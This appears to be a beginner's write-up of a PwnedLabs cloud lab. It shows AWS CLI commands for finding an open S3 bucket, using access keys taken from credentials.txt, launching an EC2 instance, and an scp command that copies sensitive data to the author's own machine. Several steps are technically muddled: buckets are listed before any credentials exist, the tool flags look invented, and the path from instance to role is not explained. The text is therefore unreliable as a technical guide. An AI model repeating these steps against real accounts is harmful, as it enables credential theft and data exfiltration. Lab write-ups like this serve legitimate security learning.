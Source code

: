 
# Breach in the Cloud - PwnedLabs Writeup

## Overview
This lab, called "Breach in the Cloud," is about finding and exploiting mistakes in a cloud environment to access sensitive data. It’s designed to show how attackers can take advantage of weak security settings in cloud systems.

As a beginner, I learned a lot about cloud security and how small mistakes can lead to big problems. Here’s how I completed the lab step by step.

---

## Lab Objectives
1. Find misconfigured cloud resources (like open storage buckets).
2. Use those mistakes to access sensitive data.
3. Learn why cloud security is so important.

---

## Tools I Used
- **AWS CLI**: A command-line tool to interact with Amazon Web Services (AWS).
- **CloudBrute**: A tool to find cloud resources that might be misconfigured.
- **Nmap**: A tool to scan networks and find open ports.
- **Metasploit**: A tool for exploiting vulnerabilities (I didn’t use it much, but it’s good to know about).

---

## Step-by-Step Walkthrough

### 1. Getting Started
First, I needed to gather information about the target cloud environment. I used the **AWS CLI** to list all the S3 buckets (which are like storage folders in the cloud):

```bash
aws s3 ls
This command showed me a list of buckets. One of them, named sensitive-data-bucket, looked interesting because of its name.

2. Finding Misconfigured Resources
Next, I used a tool called CloudBrute to find other misconfigured resources, like open servers or databases. CloudBrute is great for beginners because it automates a lot of the work.

bash
Copy
cloudbrute -k <api-key> -r <region>
This tool helped me find more resources that weren’t properly secured.

3. Accessing the Misconfigured Bucket
I went back to the sensitive-data-bucket I found earlier. Using the AWS CLI, I tried to list the files inside it:

bash
Copy
aws s3 ls s3://sensitive-data-bucket
Surprisingly, the bucket was open to the public! I found a file named credentials.txt that contained AWS access keys. This was a big mistake because access keys are like passwords for cloud accounts.

4. Using the Stolen Access Keys
With the access keys, I logged into the AWS environment using the AWS CLI:

bash
Copy
aws configure
I entered the stolen access keys when prompted. This gave me access to the cloud account.

5. Launching a New EC2 Instance
Using the stolen credentials, I launched a new EC2 instance (a virtual server in the cloud). This gave me a foothold in the cloud environment.

bash
Copy
aws ec2 run-instances --image-id ami-0abcdef1234567890 --instance-type t2.micro
6. Finding More Misconfigurations
Once inside, I noticed that the EC2 instance had a misconfigured IAM role (a role that defines what the instance can do). This allowed me to access other sensitive data stored in other S3 buckets.

7. Taking the Data
Finally, I copied the sensitive data to my own computer using a command called scp:

bash
Copy
scp -i key.pem sensitive-data.txt user@my-computer:/path/to/destination
This step simulated how an attacker might steal data from a cloud environment.

What I Learned
Public Buckets Are Dangerous: S3 buckets should never be publicly accessible unless absolutely necessary.

Access Keys Are Sensitive: Access keys are like passwords and should be protected. Never leave them in public places.

IAM Roles Matter: Misconfigured IAM roles can give attackers too much power. Always double-check permissions.

Conclusion
This lab taught me how important it is to secure cloud environments. Even small mistakes, like leaving a bucket open or using weak access keys, can lead to big problems. As a beginner, I now understand why cloud security is such a big deal and how to avoid common mistakes.
